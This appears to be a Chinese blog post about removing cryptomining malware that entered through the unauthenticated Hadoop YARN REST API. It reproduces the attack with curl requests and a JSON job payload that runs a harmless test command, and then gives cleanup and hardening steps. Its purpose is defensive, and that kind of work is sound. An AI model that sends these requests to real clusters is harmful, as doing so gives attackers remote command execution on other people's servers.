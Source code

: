 ```yaml
---
title: 消灭利用Hadoop Yarn未授权漏洞挖矿病毒
date: 2022-04-26 22:01:14
tags:
---
```


# 消灭利用Hadoop Yarn未授权漏洞挖矿病毒

参考文档：[https://www.freebuf.com/articles/system/261076.html](https://www.freebuf.com/articles/system/261076.html)

参考文档：[https://paper.seebug.org/611/](https://paper.seebug.org/611/)

**一、背景**

最近一段时间，我们的云服经常收到安全报警。top的时候，发现有几个核的使用率是100%。找到相应的进程，却发现exe指向一个已删除的文件（**ld-linux-x86-64**），查看了crontab没有异常，所以就直接kill了。怀疑密码泄露，于是修改了root密码，修改了ssh端口。

消停了几天，问题又来了，这次是另外一种挖矿病毒。例行kill后，开始考虑病毒来源，这次发现进程的USER是我们的hadoop里面（使用Docker部署）创建的一个USER。猜测可能是因为docker上root的密码太简单了（123456），攻击者通过Docker注入了病毒，于是修改了hadoop docker上root的密码。

但是问题没有从根本解决，病毒还是野火烧不尽，春风吹又生。已经基本确定的是，病毒是通过Hadoop注入进来的。查看docker里tmp文件夹，找到了病毒文件。修改了/tmp的权限。但是治标不治本，因为病毒的入口并未定位到，于是我暂时关闭了这个Docker。

现在终于有点时间来解决这个问题，于是找到了这篇文章：H**adoop Yarn REST API 未授权漏洞利用挖矿分析**（[https://paper.seebug.org/611/](https://paper.seebug.org/611/)）。才发现攻击者是利用Hadoop Yarn资源管理系统REST API未授权漏洞对服务器进行攻击，在未授权的情况下远程执行代码，进行挖矿。

**二、漏洞说明**

YARN提供有默认开放在8088和8090的REST API（默认前者）允许用户直接通过API进行相关的应用创建、任务提交执行等操作，如果配置不当，REST API将会开放在公网导致未授权访问的问题，那么任何黑客则就均可利用其进行远程命令执行，从而进行挖矿等行为。

### 三、**攻击步骤（利用PostMan复现）：**

1.申请新的application

直接通过curl进行POST请求

```
curl -v -X POST 'http://ip:8088/ws/v1/cluster/apps/new-application'
```

返回内容类似于（注意第一行的application-id)：

```
{
    "application-id": "application_1637028888425_0001",
    "maximum-resource-capability": {
        "memory": 8192,
        "vCores": 4,
        "resourceInformations": {
            "resourceInformation": [
                {
                    "maximumAllocation": 9223372036854775807,
                    "minimumAllocation": 0,
                    "name": "memory-mb",
                    "resourceType": "COUNTABLE",
                    "units": "Mi",
                    "value": 8192
                },
                {
                    "maximumAllocation": 9223372036854775807,
                    "minimumAllocation": 0,
                    "name": "vcores",
                    "resourceType": "COUNTABLE",
                    "units": "",
                    "value": 4
                }
            ]
        }
    }
}
```

2.构造并提交任务

Postman body（设置为raw→json), 填写内容如下，其中application-id对应上面得到的id，命令内容为尝试在/var/tmp目录下创建`11112222_test_111122222`文件，内容也为111：

```
{
    "am-container-spec":{
        "commands":{
            "command":"echo '111' > /var/tmp/11112222_test_11112222"

        }
    },
    "application-id":"application_1637028888425_0001",
    "application-name":"test",
    "application-type":"YARN"
}
```

然后直接

```
curl -s -i -X POST -H 'Accept: application/json' -H 'Content-Type: application/json' http://ip:8088/ws/v1/cluster/apps --data-binary @1.json
```

即可完成攻击，命令被执行，在相应目录下可以看到生成了对应文件。

### **三、入侵分析（略）**

在本次分析的案例中，受害机器部署有Hadoop YARN，并且存在未授权访问的安全问题，黑客直接利用开放在8088的REST API提交执行命令，来实现在服务器内下载执行.sh脚本，从而再进一步下载启动挖矿程序达到挖矿的目的。

### **四、安全建议**

### **清理病毒**

1. 使用top查看进程，kill掉异常进程
2. 检查/tmp和/var/tmp目录，删除java、ppc、w.conf等异常文件
3. 检查crontab任务列表，删除异常任务
4. 排查YARN日志，确认异常的application，删除处理

### **安全加固**

1. 通过iptables或者安全组配置访问策略，限制对8088等端口的访问
2. 如无必要，不要将接口开放在公网，改为本地或者内网调用
3. 升级Hadoop到2.x版本以上，并启用Kerberos认证功能，禁止匿名访问

## 五、解决方案：

1. 因为我暂时没有时间去研究Kerberos，暂时还用不到Yarn的服务，所以直接把8088端口禁用了。以观后效。